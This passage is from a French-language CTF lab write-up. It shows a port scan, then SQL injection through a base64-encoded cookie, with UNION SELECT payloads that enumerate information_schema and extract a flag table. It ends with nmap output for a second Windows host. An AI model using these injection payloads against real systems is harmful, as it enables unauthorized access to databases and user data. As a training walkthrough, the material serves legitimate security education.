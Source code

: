 Avec le scan de port, on trouve le service `ssh` qui tourne sur le port 22 ainsi qu'un service `http` sur le port 80. Nous nous sommes donc connectées avec un navigateur web à l'URL suivante : `http://10.10.40.138`. On peut voir qu'il y a un formulaire de connexion. Ceci implique qu'il y a une base de données derrière et une attaque d'injection SQL est potentiellement possible.

Dans un premier temps, nous avons saisi l'injection suivante dans les champs username et password : `'password' OR 1=1'`. Lors de la connexion, nous avons eu le message d'erreur suivant : 

````
"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'password' OR 1=1'" AND passw0rd='369e5c46184ae33e1e3701ef68bf11408653b8185575251' at line 1"
````

Puis lorsque l'on supprime le `cookie`, un message d'erreur indiquant que la valeur de `authenticator` n'est pas renseigné dans le `cookie`.

Nous avons donc recréé le `cookie` et l'avons modifié afin d'injecter nos requêtes SQL. Chaque requête SQL a été convertie en base64 avant l'envoi. 

``````mysql
#1. création d'un cookie
#Connexion avec un compte qu'on a créé (user = coucou)

#2. affiche tous les users 
coucou' OR '1' = '1'#

#3. affiche les tables et leur nom
'UNION SELECT table_schema, table_name, 1 FROM information_schema.tables#: 

#4. Recherche les colonnes sur la table s3cr3t
'UNION SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_name = 's3cr3t_t4ble'#:

#5. Affiche le contenu de la colone fl4g
'UNION SELECT fl4g, 1, 2 FROM s3cr3t_t4ble#:

#flag = EHK17{1a86ff7923c40c9ccd806ee5036d363c068ccc4d}
``````

Le flag de cette machine est : `EHK17{1a86ff7923c40c9ccd806ee5036d363c068ccc4d}`.



#### Host 10.10.40.168

````shell
#Scan des ports avec
nmap -sV -p0-65535 10.10.40.168

tarting Nmap 7.80 ( https://nmap.org ) at 2020-10-07 16:50 BST
Nmap scan report for 10.10.40.168
Host is up (0.015s latency).
Not shown: 993 filtered ports
PORT      STATE SERVICE VERSION
53/tcp    open  domain  Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
80/tcp    open  http    Apache Tomcat/Coyote JSP engine 1.1
135/tcp   open  msrpc   Microsoft Windows RPC
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
49154/tcp open  msrpc   Microsoft Windows RPC
49155/tcp open  msrpc   Microsoft Windows RPC
49157/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows
````
